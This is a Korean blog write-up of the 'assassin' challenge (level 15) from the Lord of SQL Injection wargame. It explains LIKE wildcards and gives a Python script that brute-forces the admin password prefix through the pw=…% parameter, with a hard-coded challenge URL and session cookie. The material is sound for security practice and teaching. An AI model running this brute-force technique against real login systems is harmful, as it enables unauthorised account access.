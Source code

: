 ```yaml
---
title: LOS - 15번 assassin
category: [Wargame, Lord of SQL Injection]
---
```


# [15] assassin

## 문제
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2F4y2Uz%2Fbtrnlsurpq9%2FGK4iDgR7Dsvjz5D8GAtD11%2Fimg.png">

## 풀이

또 새로운 유형이다.

<br> 

싱글쿼터 필터링을 우회할 방법이 딱히 보이지 않는다.

이 경우, 아마도 like절의 특성을 이용하여 admin 레코드를 뽑아오는 문제인 것 같았다.

<br>

먼저, like절에 사용되는 패턴에 대해 간단히 표로 정리해보았다.


<table style="width:100%;">
    <thead style="background:rgb(218, 139, 139);">
        <tr style="height: 20px; color:white">
            <th style=" padding:10px; text-align: center;" colspan="2">SELECT * FROM 테이블 WHERE 컬럼 LIKE [PATTERN]</th>
        </tr>
    </thead>
    <tbody style="text-align:center;">
        <tr>
            <td style="width:50%; padding:10px; text-align: center; background:#E0E0E0; font-weight:bolder">%</td>
            <td style="padding:10px;">모든 문자</td>
        </tr>
        <tr>
            <td style="width:50%; padding:10px; text-align: center; background:#E0E0E0; font-weight:bolder">_</td>
            <td style="padding:10px; background:#EEEEEE;">한 글자</td>
        </tr>
        <tr>
            <td style="width:50%; padding:10px; text-align: center; background:#E0E0E0; font-weight:bolder">A%</td>
            <td style="padding:10px;">A로 시작하는 모든 문자</td>
        </tr>
        <tr>
            <td style="width:50%; padding:10px; text-align: center; background:#E0E0E0; font-weight:bolder">%A</td>
            <td style="padding:10px; background:#EEEEEE;">A로 끝나는 모든 문자</td>
        </tr>
        <tr>
            <td style="width:50%; padding:10px; text-align: center; background:#E0E0E0; font-weight:bolder">%A%</td>
            <td style="padding:10px;">A를 포함하는 모든 문자</td>
        </tr>
    </tbody>
</table>


<br>

패턴을 살펴보니, pw=% 를 입력할 시 해당 테이블의 첫번째 레코드를 뽑아오게 될 것 같았다.

(∵ 모든 데이터가 해당 조건을 만족하므로)

<br>

보통 테이블의 첫번째 레코드는 admin 계정이기 때문에 설마하는 마음으로 한번 입력해봤다.

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FZhKZn%2FbtrnjE9XUK5%2F1pVZviULToqZHTmyKVECv1%2Fimg.png">

<br>

첫번째 레코드는 guest 계정이었다.

<br>

어떻게 admin을 뽑아올 지 고민한 결과.. 내리게 된 결론은 Brute Force 였다.

pw의 첫번째 자리에 0% ~ Z% 모든 경우의 수를 대입하여 Hello admin이 뜨는 경우를 찾는 것이다.

<br>

다만 이 방법을 사용할 때는 반드시 고려해야할 점이 있는데,

guest 계정과 admin 계정의 pw 앞부분이 겹칠 수 있다는 점이다.

<br>

때문에 적절한 대처 방법이 필요한데... 자세한 내용은 아래의 코드를 보면서 설명한다.

<br>

다음은 이번 문제를 풀기 위해 짜본 **Python 자동화 코드**이다.

```python
import requests

url = "https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php"
cookie = "spin7uv9vl2fjnjet0tsug5eb6"
head = {"PHPSESSID":f"{cookie}"}

guest = ""
admin = ""
finish = False

print("💘 Brute Force를 시작합니다")

for len in range(1, 30):
    if (finish==True):
        break
    print(f"{len}번째 문자에 대해 검색중입니다..")
    for ran in range(48, 127):
        search = guest+chr(ran)
        param = f"?pw={search}%"
        my_url = url+param
        res = requests.get(my_url, cookies=head)
        if ("Hello admin" in res.text):
            admin = search+"%"
            print(f"👏 적절한 검색어는 {admin}입니다!")
            finish = True
            break
        elif ("Hello guest" in res.text):
            guest += chr(ran)
            break
```

[0] 먼저, 빈 문자열인 guest와 admin을 선언해준다.

<br>

[1-1] 첫번째 문자에 대해 ASCII 48~126를 탐색하는 도중 Hello admin이 떴을 시, guest(빈 문자열)+해당 문자열+%을 admin에 할당하고 중첩반복문을 완전히 탈출해준다.

[1-2] 첫번째 문자에 대해 ASCII 48~126를 탐색하는 도중 Hello guest가 떴을 시, 해당 문자열을 guest에 추가하고 다음 루프로 넘어가준다.

- Hello admin이 뜨지 않고 Hello guest가 떴다면, 이는 admin 계정과 guest 계정의 pw 첫번째 문자가 겹친다는 뜻이다. 둘의 문자가 같을 시 테이블 상 첫번째 레코드인 guest 계정이 fetch 되기 때문이다.

<br>

[2-1] 첫번째 문자를 고정한 채로 두번째 문자에 대해 ASCII 48~126를 탐색하는 도중 Hello admin이 떴을 시, guest+해당 문자열+%을 admin에 할당하고 중첩반복문을 완전히 탈출해준다.

[2-2] 첫번째 문자를 고정한 채로 두번째 문자에 대해 ASCII 48~126를 탐색하는 도중 Hello guest가 떴을 시, 해당 문자열을 guest에 추가하고 다음 루프로 넘어가준다.

- 첫번째 루프에서와 마찬가지로, Hello admin이 뜨지 않고 Hello guest가 떴다면, 이는 두 계정의 pw 두번째 문자가 겹친다는 뜻이다.

<br>

이하는 동일한 로직으로 반복된다.

결국 해당 코드는 admin과 guest의 pw가 달라지는 지점의 admin의 앞자리를 출력하게 된다.

<br>

예를 들어,

admin pw : 123abc

guest pw : 123xyz

인 경우,

123a% 를 출력하고 종료되는 것이다.

출력문은 admin의 pw에 대한 적절한 검색어로 사용될 수 있다.

<br>

다음은 해당 코드의 실행 결과다.

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FmrP39%2FbtrnrjiteWP%2Flw2kiIcXMwaBwDksWvchJk%2Fimg.png">

Brute Force 결과, 적절한 검색어는 `902%` 이다.


## 결과
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fna0E6%2FbtrnoCXQ4Zi%2FntHXLfVKKBgbIcuxuF6Ky1%2Fimg.png">